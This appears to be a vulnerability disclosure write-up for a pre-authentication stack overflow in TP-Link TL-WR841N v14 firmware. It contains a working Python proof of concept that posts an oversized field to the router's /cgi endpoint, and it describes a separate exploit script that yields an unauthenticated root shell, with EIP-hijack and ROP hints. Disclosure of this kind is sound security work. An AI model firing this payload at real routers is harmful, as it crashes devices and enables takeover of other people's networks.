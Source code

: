 # TL-WR841Nv14_US_0.9.1_4.18 has an pre-auth stack overflow vulnerability

## Overview

- **Type**: Buffer overflow
- **Vendor**: TP-LINK ([https://www.tp-link.com](https://www.tp-link.com/))
- **Products**: WiFi Router, such as TL-WR841Nv14_US_0.9.1_4.18

## Description

### 1.Product Information:

TP-link WR841N wireless router, the latest version of simulation overview：

![image-20220208174910589](img/image-20220208174910589.png)

![image-20220208174913733](img/image-20220208174913733.png)

Figure 2 Update date of the latest version of the firmware

The latest firmware update to 2021-04-09

In the library(libcmm.so) function dm_fillObjByStr(), directly call strncpy to copy the input content to the local variable v26. If the copy length and copy content are controllable, there is a stack overflow vulnerability at this location.

![image-20220208174958891](img/image-20220208174958891.png)

### 2.2 Vulnerability effect

This vulnerability can affect the latest version of **TP-Link WR841 device (2021-04-09)**

Using the provided POC can attack and cause the http service to crash, indicating that there is indeed a stack overflow vulnerability, and the httpd program does not open any protection mechanism, as shown in the figure below, so the privilege escalation is simple to use. You can use Padding to hijack the EIP first, and use ROP to execute the privilege escalation code That's it.

![image-20220208175042853](img/image-20220208175042853.png)

Figure 5 Attacking the SNMP service causes the process to restart

### 2.2 Vulnerability reproduction steps

In order to reproduce the vulnerability, you can follow the following steps:

1. Use FAT simulation firmware TL-WR841Nv14_US_0.9.1_4.18_up_boot[210203-rel37242].bin

2. Use the following POC attack to attack

```python
import requests
headers = {
	"Host": "192.168.0.1",
	"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
	"Accept": "*/*",
	"Accept-Language": "en-US,en;q=0.5",
	"Accept-Encoding": "gzip, deflate",
	"Content-Type": "text/plain",
	"Content-Length": "78",
	"Origin": "http://192.168.0.1",
	"Connection": "close",
	"Referer": "http://192.168.0.1/"
}

payload = "a" * 2048
formdata = "[/cgi/auth#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\nname={}\r\noldPwd=admin\r\npwd=test\r\n".format(payload)

url = "http://192.168.0.1/cgi?8"

response = requests.post(url, data=formdata, headers=headers)
print response.text
```

![image-20220208175251601](img/image-20220208175251601.png)

Figure 6 POC attack effect

### 1.3Exploit effect

In order to reproduce the exploit, you can follow the following steps:

1. Use FAT simulation firmware TL-WR841Nv14_US_0.9.1_4.18_up_boot[210203-rel37242].bin

2. Finally write exp can reach getshell

![image-20220208175337300](img/image-20220208175337300.png)

Figure 7 EXP attack effect

This exp uses multi-threaded attacks to achieve a very stable effect of obtaining a root shell, and does not require any password to log in to access the router, which is an unauthorized RCE vulnerability. (As shown in the figure below, there is no web login)

![image-20220208175405582](img/image-20220208175405582.png)

Figure 8 No login required before the attack

In order to reproduce the exploit, you can follow the following steps:
1. Use fat simulation firmware tl-wr841nv14_ US_ 0.9.1_ 4.18_ up_ boot[210203-rel37242]. bin
2. Attack with the provided exp attack: python exp_wr841.py 192.168.0.2 11451 (Python attack script attacker IP listening port)

![image-20220209170209004](img/image-20220209170209004.png)

Figure 10 exp attack effect

The exp uses multithreading attack, which can achieve a very stable effect of obtaining the root shell, and does not need any password to log in and access the router. It is an unauthorized rce vulnerability. (as shown in the figure below, there is no web login)

![image-20220209170302352](img/image-20220209170302352.png)

Figure 11 no login required before attack